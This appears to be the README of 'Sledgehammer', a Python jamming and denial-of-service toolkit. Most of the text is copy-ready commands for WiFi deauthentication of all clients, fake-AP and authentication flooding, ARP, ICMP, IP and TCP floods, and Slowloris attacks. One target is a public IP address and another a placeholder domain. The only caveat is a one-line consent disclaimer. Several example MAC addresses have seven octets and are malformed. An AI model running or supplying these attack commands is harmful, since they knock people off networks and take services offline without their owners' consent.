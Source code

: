 ### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- WiFi (smart deauthentication, DoS via fake AP creation, DoS via authentication)
- arp
- ip
- icmp
- tcp

### Requirements
- [Python 3.x](https://www.python.org/)
- [Pypacker](https://github.com/mike01/pypacker) ('pip install pypacker' or clone and 'python setup.py install')
- [iwconfig](http://www.hpl.hp.com/personal/Jean_Tourrilhes/Linux/Tools.html) (wireless-tools)

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.
Default source MAC and IP address is the one of the interface given by 'iface_name'.

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients

  `python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999`

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients except '00:11:22:33:44:55'

  `python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --nobroadcast --macs_excluded 00:11:22:33:44:55 --count 9999`

- WiFi DoS via mass fake APs

  `python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999`

- WiFi DoS via mass auth

  `python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999`

- ARP

  `python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1`

- ICMP

  `python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1`

- IP

  `python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999`

- TCP

  `python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443`

- Slowlory

  `python sledgehammer.py -m slowlory --ip_dst 1.2.3.4 --port_dst 80  -i wlan0`

  `python sledgehammer.py -m slowlory --ip_dst www.domain.com --port_dst 443 --ssl True -i wlan0`

### Disclaimer
Use at your own risk. Do not use without full consent of everyone involved.
